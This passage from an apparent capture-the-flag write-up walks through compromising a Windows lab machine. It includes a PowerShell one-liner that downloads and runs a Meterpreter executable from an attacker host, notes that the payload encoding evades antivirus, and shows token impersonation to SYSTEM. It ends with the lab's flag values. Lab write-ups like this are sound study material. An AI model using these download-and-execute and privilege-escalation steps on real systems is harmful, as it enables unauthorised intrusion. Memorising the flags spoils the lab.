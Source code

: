 This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

We then download the file to the machine as before;

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.14.49.18:8000/test.exe','test.exe')"
```

now we have the test.exe file on the host we can then run it with;

```shell
Start-Process "test.exe"
```

## Privilege Escalation vector

Now we have a meterpreter shell to the machine we can use a meterpreter module called incognito to impersonate and administrator

```shell
meterpreter > use incognito
Loading extension incognito...Success.
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > 
```

Now we have system access as an administrator we can migrate to another system process to ensure we have admin functions and from that we can navigate the file system till we find the root.txt file

```shell
meterpreter > migrate 992
[*] Migrating from 1708 to 992...
[*] Migration completed successfully.
meterpreter > cd c:\\Windows\\System32\\config
meterpreter > cat root.txt
**********************************
```

---

# Trophy & Loot

user.txt
```bash
79007a09481963edf2e1321abd9ae2a0
```

root.txt

```bash
dff0f748678f280250f25a45b8046b4a
```
